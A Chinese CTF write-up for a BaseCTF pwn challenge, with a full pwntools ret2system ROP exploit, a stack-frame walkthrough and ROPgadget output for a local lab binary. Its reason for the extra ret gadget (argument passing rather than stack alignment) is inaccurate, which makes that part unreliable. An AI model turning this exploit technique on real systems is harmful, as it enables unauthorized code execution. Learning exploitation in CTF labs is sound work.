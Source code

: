 # Basectf pwn方向“我把她丢了”

by Maple

简单的栈溢出ROP题目，题上已经给了system和/bin/sh的字符串,只需要做一个组合就好。

在64位中，函数的参数是利用寄存器传递的，而第一个参数一般是存放在rdi中的,所以我们先用pop rdi ret把bin/sh字符串地址放在rdi然后再调用system函数即可，调用使用函数的plt表

```python
from pwn import *
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
context(os='linux', arch='amd64',log_level = 'debug')

p = process("./wbtdl")
elf = ELF('./wbtdl')


pop_rdi = 0x401196
binsh = 0x402008
ret = 0x40101a
shell = elf.plt['system']
payload = b'a'*0x78+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(shell)

p.sendline(payload)

p.interactive()
```

这里依次解释一下payload构造的每一项的作用

## pop_rdi

首先要知道，在x86-64架构下，rdi寄存器用于传递第一个整数或指针参数给函数。而pop_rdi一般是在堆叠溢出漏洞时用于设置函数调用的第一个参数，在这里pop_rdi的作用是从栈顶弹出一个值并将其放入rdi寄存器中

## ret

ret指令在这里起到一个“跳板”的作用，确保程序可以按照预期的顺序执行和函数调用，也就是在执行pop_rdi将binsh的地址弹出到rdi寄存器后，通过ret返回到system函数

不加会怎么样：

如果不使用ret指令，直接在pop_rdi后面跟system函数的地址，那么在执行完pop_rdi后，PC会直接跳转到system函数，而不是从栈中弹出返回地址，这会导致system函数的参数传递不正确

## 栈帧分析

`payload = payload = b'a'*0x78+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(shell)`

1. 初始状态的栈状态如下

```C
[ ... ]  <- 堆栈顶
[ 返回地址 ]  <- 被溢出覆盖
```

2. 填充120字节的`a`后，覆盖栈上的返回地址

```c
[ ... ]  <- 堆栈顶
[ 0x401196 ]  <- pop_rdi gadget地址
[ 0x402008 ]  <- /bin/sh字符串地址
[ 0x40101a ]  <- ret指令地址
[ 0x401050 ]  <- system函数地址
```

3. 执行pop_rdi gadget后，栈顶弹出binsh地址，并放入rdi寄存器

```c
[ ... ]  <- 堆栈顶
[ 0x40101a ]  <- ret指令地址
[ 0x401050 ]  <- system函数地址
```

4. ret指令被弹出，跳转到该地址执行

```c
[ ... ]  <- 堆栈顶
[ 0x401050 ]  <- system函数地址
```

5. 执行system函数，ret指令从栈中弹出0x401050地址。于是system函数被调用，因为bin/sh的地址存放于rdi中，所以system调用rdi中的地址就是调用了bin/sh，从而执行了bin/sh

## pop_rdi和ret地址的搜索

在有ROPgadget的情况下可以直接

`ROPgadget --binary <filename> -only "pop|ret"`

例如：

```c
linux> ROPgadget --binary wbtdl --only "pop|ret"

Gadgets information
============================================================
0x000000000040117d : pop rbp ; ret
0x0000000000401196 : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

